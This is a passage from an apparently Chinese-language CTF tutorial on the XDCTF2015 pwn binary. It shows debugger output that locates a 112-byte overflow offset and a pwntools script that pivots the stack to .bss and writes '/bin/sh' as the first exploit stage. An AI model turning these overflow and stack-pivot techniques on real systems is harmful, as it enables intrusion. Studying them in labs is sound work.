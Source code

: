 ```shell
0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 
[!] Syntax
pattern search PATTERN [SIZE]
gef➤  pattern search 0x62616164
[+] Searching '0x62616164'
[+] Found at offset 112 (little-endian search) likely
```

#### stage 1

这里我们的主要目的是控制程序执行write函数，虽然我们可以控制程序直接执行write函数。但是这里我们采用一个更加复杂的办法，即使用栈迁移的技巧，将栈迁移到bss段来控制write函数。即主要分为两步

1. 将栈迁移到bss段。
2. 控制write函数输出相应字符串。

这里主要使用了pwntools中的ROP模块。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"
rop.write(1, base_stage + 80, len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```
